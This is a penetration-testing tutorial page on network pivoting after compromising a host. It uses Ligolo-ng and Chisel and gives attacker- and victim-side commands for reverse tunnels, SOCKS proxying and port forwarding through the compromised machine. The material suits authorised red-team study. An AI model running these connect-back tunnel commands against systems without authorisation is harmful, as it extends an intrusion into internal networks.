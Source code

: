 ```yaml
---
label: Network Tunneling
subLabel: (Ligolo-ng, Chisel)
---
```


# Network Tunneling

It is often the case that after compromising one externally visible machine, we want to continue the attack on the internal network. Only the compromised machine has access to the internal network. So we need to somehow route outbound traffic from our system (e.g. Kali Linux) through the compromised machine. There are several ways and offensive tools to set up a TCP/UDP tunnel.

There are different methods of tunneling. The most popular are: TCP over TCP+TLS, TCP over HTTP, TCP over SSH. The idea is to pack standard TCP packets into some other protocol, usually a higher layer, and send them that way to the compromised machine. There is an tunnel client / agent running on a compromised machine so that it can unpack the tunneled packets to standard TCP and send them to the network interface. After this process, our TCP packets can find their way from the compromised machine to the internal network.

Example path:

```plaintext
(attacker)     TCP tunnel   (tunnel client)      TCP
  LINUX  -------------------> COMPROMISED ----------------> INTERNAL
 MACHINE       over HTTP        MACHINE                     NETWORK
```

## Ligolo-ng (TCP over TCP+TLS)

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) is a simple tool to establish tunnels using TUN interface on Linux. It's basically a custom virtual network interface that translates all packets and sends it to the remote agent. On the other side of the tunnel, the agent unpacks the packets. The tool uses TCP over TCP+TLS tunneling.

Since tunneling has been implemented at the network interface level, **the established tunnel is completely transparent from the attacker's point of view. It does not require any additional configuration of the offensive tooling used during the engagement**.

Quick initial configuration (attacker):

```bash
# Create a Ligolo network interface
ip tuntap add user $user mode tun ligolo

# Set the Ligolo interface up
ip link set ligolo up
```

Attacker:

```bash
# Run Ligolo proxy server (with auto-configured TLS certificate)
proxy -autocert
```

Victim:

```bash
# Connect back to Ligolo server
agent -connect $attacker_ip:$port
```

Attacker (Ligolo CLI):

```bash
# Show active sessions and select one
> session

# Create routing rules on Linux
ip route add $victim_ip/$mask dev ligolo

# Start tunnel
> start
```

Now, whatever the attacker executes on his Linux will be transmitted to the victim and come out the other side of the tunnel. Without using any additional tooling.

> **How to access to `127.0.0.1` of the victim's machine?** Ligolo creates a special fake IP address `240.0.0.1` that basically means `127.0.0.1` of the victim's machine. Executing `nmap 240.0.0.1` on the attacker's machine is equal to executing `nmap 127.0.0.1` on the victim's machine.

### Ligolo port forwarding

Ligolo also makes it very easy to set up port forwarding from the victim's machine port to the attacker's machine port. It doesn't require any configuration on the victim's machine.

Attacker (Ligolo CLI):

```bash
# Setup port-forwarding
> listener_add --addr 0.0.0.0:$victim_port --to 127.0.0.1:$attacker_port --tcp

# Example
> listener_add --addr 0.0.0.0:3000 --to 127.0.0.1:9000 --tcp
```

Now the victim's port is forwarded to the attacker's port. Accessing `127.0.0.1:9000` on the attacker's machine is equal to accessing `127.0.0.1:3000` on the victim's machine and vice versa.

## Chisel (TCP over HTTP)

[Chisel](https://github.com/jpillora/chisel) is a tool to establish a TCP/UDP tunnel over HTTP. Allows you to do a simple port forwarding and establish a SOCKS tunnel.

### Simple port forwarding

Attacker:

```bash
# Run Chisel server listening on port
chisel server --reverse --port $srv_port
```

Victim:

```bash
# Bind a socket to attacker's port
chisel client $srv_ip:$srv_port R:$attacker_port:$remote_ip:$remote_ip
```

After that using `http://localhost:$attacker_port` an attacker (from its local machine) is accessing a socket defined on the client side of the tunnel.

### SOCKS tunnel

SOCKS tunnel mostly requires the use of `proxychains` tool. At the same time it provides more flexibility because it allows access to any host and port without any additional configuration on the client side. Something for something...

Attacker:

```bash
# Run Chisel server listening on port
chisel server --reverse --port $srv_port
```

Victim:

```bash
chisel client $srv_ip:$srv_port R:$attacker_port:socks
```

In order to use the established tunnel packets must be translated to SOCKS. All tools that do not natively support the SOCKS protocol must be passed through a `proxychains` tool. The port used for the SOCKS tunnel must be set in the config file: `/etc/proxychains4.conf`. This is the `$attacker_port` from the snippet above.

```bash
# Example usage: all ffuf requests are transmitted via SOCKS tunnel
proxychains ffuf [...]
```

## C2 Frameworks

Many C2 frameworks have already built-in fancy tunneling and port-forwarding capabilities. Take a look at the documentation of the C2 framework you are using.
